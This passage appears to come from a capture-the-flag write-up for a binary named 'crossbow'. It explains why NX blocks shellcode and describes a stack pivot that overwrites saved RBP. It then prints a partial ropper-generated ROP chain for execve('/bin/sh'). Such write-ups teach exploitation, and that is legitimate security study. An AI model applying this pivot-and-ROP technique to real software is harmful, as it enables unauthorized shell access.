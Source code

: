 With that we’d just be placing a pointer in a pointer to our data there, and since **NX (No eXecute)** is enabled, we can’t jump directly to shellcode. Instead, we’d need a valid **ROP chain**.

At the point of returning, the stack would look like this:

    RSP ──▶ [ memAllocatedByCalloc ] ──▶ [ addressOfGadget ]

So when `ret` executes, it would try to jump to a pointer, which isn't executable. This causes a crash.

---

### Better Approach: Overwrite `saved RBP`

A more effective strategy is to overwrite the **saved RBP** instead.

After the vulnerable function (e.g., `target_dummy`) returns, it executes:

    leave   ; (equivalent to mov rsp, rbp)
    ret     ; (pop RIP)

This means:
1. If we control the **saved RBP**, we control where `RSP` goes after `leave`.
2. Then after leaving `training():` is `leave; ret` will pop the next address from our fake stack — a clean **ROP chain**.

By setting `saved RBP` to point to a memory region we control (that one allocated by calloc), we pivot the stack and execute our payload safely, **without violating NX**.

---

This approach lets us chain gadgets and build a full ROP chain, leading to shell access or further control.
"""



## ROP Chain Creation

With `ropper`'s help, we created an `execve("/bin/sh", NULL, NULL)` ROP chain using gadgets inside the binary.

Here's the initial result:

```bash
└─$ ropper --file crossbow --chain execve

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 7bf5f772c59b6cc7854de1212fa8c99ec9bf25e33a4b0cd6c251200852dd2c2b
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret; 
rop += '//bin/sh'
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret; 
rop += rebase_0(0x000000000000e000)
rop += rebase_0(0x00000000000020f5) # 0x00000000004020f5: mov qword ptr [rdi], rax; ret; 
rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret; 
rop += rebase_0(0x000000000000e008)
rop += rebase_0(0x00000000000020f5) # 0x00000000004020f5: mov qword ptr [rdi], rax; ret; 
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret; 
```